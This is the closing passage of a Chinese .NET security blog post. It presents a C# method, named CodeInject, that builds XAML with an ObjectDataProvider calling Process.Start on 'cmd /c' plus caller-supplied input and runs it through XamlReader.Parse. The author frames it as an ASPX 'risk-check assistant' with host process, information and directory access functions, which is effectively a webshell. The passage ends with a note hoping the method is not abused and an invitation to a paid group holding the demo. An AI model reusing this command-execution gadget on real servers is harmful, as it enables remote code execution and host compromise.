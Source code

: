 为了增强程序的可操作性，笔者改用 aspx 页面编写风险检查智能助手，同时设计了主机进程、主机信息采集、主机目录文件访问等功能，内部采用 Base64 编码和解码的解析方式运行，这样的好处在于对 URL 特殊字符串的处置，启动`Process`类调用`cmd.exe/c winver.ex`e 执行命令，核心代码和页面用户体验界面如下程序

```csharp
public static void CodeInject(string input)
{
    string ExecCode = EncodeBase64("utf-8", input);
    StringBuilder strXMAL = new StringBuilder("<ResourceDictionary ");
    strXMAL.Append("xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\" ");
    strXMAL.Append("xmlns:x=\"http://schemas.microsoft.com/winfx/2006/xaml\" ");
    strXMAL.Append("xmlns:b=\"clr-namespace:System;assembly=mscorlib\" ");
    strXMAL.Append("xmlns:pro =\"clr-namespace:System.Diagnostics;assembly=System\">");
    strXMAL.Append("<ObjectDataProvider x:Key=\"obj\" ObjectType=\"{x:Type pro:Process}\" MethodName=\"Start\">");
    strXMAL.Append("<ObjectDataProvider.MethodParameters>");
    strXMAL.Append("<b:String>cmd</b:String>");
    strXMAL.Append("<b:String>/c "+ DecodeBase64("utf-8",ExecCode) +"</b:String>");
    strXMAL.Append("</ObjectDataProvider.MethodParameters>");
    strXMAL.Append("</ObjectDataProvider>");
    strXMAL.Append("</ResourceDictionary>");
    XamlReader.Parse(strXMAL.ToString());
}
```

![](https://img1.dotnet9.com/2022/05/5910.png)

## 0x07 结语

有关 XamlReader 类多个命令执行的方法希望未来不会被恶意滥用，好啦本文就介绍到此，文章涉及的 PDF 和 Demo 已打包发布在星球，欢迎对.NET 安全关注和关心的同学加入我们，在这里能遇到有情有义的小伙伴，大家聚在一起做一件有意义的事。
